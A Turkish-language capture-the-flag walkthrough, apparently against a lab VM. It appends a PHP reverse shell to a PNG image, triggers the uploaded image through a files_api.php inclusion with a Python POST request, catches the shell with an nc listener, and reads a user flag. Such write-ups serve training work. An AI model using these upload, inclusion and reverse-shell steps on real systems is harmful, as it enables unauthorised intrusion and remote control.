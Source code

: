 Bu kodda IP ve port bilgilerini kendi bilgisayarıma göre ayarladıktan sonra resmin sonuna şu şekilde yerleştiriyorum.

```text
root@kali:~# cat php-reverse-shell.php >> resim.png
```

Bu bash komutu ile php kodunu resmin sonuna eklemiş olduk. Artık yapmamız gereken şey kendi bilgisayarımızda gerekli portu dinlemeye almak ve resmi görüntülemek.

## Nerede Bu Resim Dizini

Bu kısım baya acı verici. Resimlerin yüklendiği dizini bulmak oldukça zor. Ben internetten araştırarak bulabildim.

Resimler `http://192.168.56.102/development/uploader/FRANKuploads/` dizinine yükleniyor. Buradan resmi görüntüleyerek reverse shellimizi alamıyoruz.

Ardından "files_api.php" sayfasından deniyorum. Evet bu sefer oldu. Reverse shellimizi aldık.

```text
root@kali:~# python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> r = requests.post("http://192.168.56.102:8011/api/files_api.php", data={"file": "/var/www/development/uploader/FRANKuploads/resim.png"})

```

Burada da `nc` ile dinlemeye aldığım port:

```text
root@kali:~# nc -lvp 55555
Listening on [0.0.0.0] (family 0, port 55555)
Connection from 192.168.56.102 52018 received!
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
 14:37:14 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$
```

Sırada frank kullanıcısının home dizinine gidip flagimizi alabiliriz.

```text
$ cd /home/frank
$ ls -al
total 36
drwxr-xr-x 3 frank frank 4096 Apr 14  2018 .
drwxr-xr-x 3 root  root  4096 Apr 13  2018 ..
-rw------- 1 frank frank   26 Jul 31 07:44 .bash_history
-rw-r--r-- 1 frank frank  220 Apr 13  2018 .bash_logout
-rw-r--r-- 1 frank frank 3353 Apr 13  2018 .bashrc
drwxr-xr-x 2 frank frank 4096 Apr 13  2018 .cache
-rw-r--r-- 1 frank frank  675 Apr 13  2018 .profile
-rw-r--r-- 1 frank frank    0 Apr 13  2018 .sudo_as_admin_successful
-rw-r--r-- 1 frank frank   29 Apr 14  2018 PE.txt
-rw-r--r-- 1 frank frank   33 Apr 14  2018 user.txt
$ cat user.txt
4795aa2a9be22fac10e1c25794e75c1b
```
